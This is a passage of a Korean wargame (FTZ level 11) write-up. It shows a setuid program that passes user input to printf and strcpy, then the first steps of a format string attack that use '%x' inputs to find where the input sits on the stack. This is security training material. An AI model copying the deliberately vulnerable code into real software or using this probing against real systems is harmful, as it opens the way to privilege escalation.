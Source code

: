 # Level11

## This level's goal

- FSB(Format String Bug)
- Shell code

***

```
[level11@ftz level11]$ ls -l
total 28
-rwsr-x---    1 level12  level11     13733 Mar  8  2003 attackme
-rw-r-----    1 root     level11       168 Mar  8  2003 hint
drwxr-xr-x    2 root     level11      4096 Feb 24  2002 public_html
drwxrwxr-x    2 root     level11      4096 Jan 14  2009 tmp

[level11@ftz level11]$ cat hint

#include <stdio.h>
#include <stdlib.h>

int main( int argc, char *argv[] )
{
        char str[256];

        setreuid( 3092, 3092 );
        strcpy( str, argv[1] );
        printf( str );
}
```

The hint seems the vulnerability of FSB and BOF   
I will exploit with FSB

```
[level11@ftz level11]$ ./attackme
Segmentation fault
```

This seems that Segmentation falut will be printed if there is no argument and then the argv[1] is the value of garbage.

```
[level11@ftz level11]$ ./attackme "AAAA"
AAAA
[level11@ftz level11]$ ./attackme "AAAA %x"
AAAA bffffc40
[level11@ftz level11]$ ./attackme "AAAA %x %x"
AAAA bffffc3d bffff300
[level11@ftz level11]$ ./attackme "AAAA %x %x %x"
AAAA bffffc3a bfffdb80 1
[level11@ftz level11]$ ./attackme "AAAA %x %x %x %x"
AAAA bffffc37 bfffde00 1 41414141
```

AAAA means 41414141

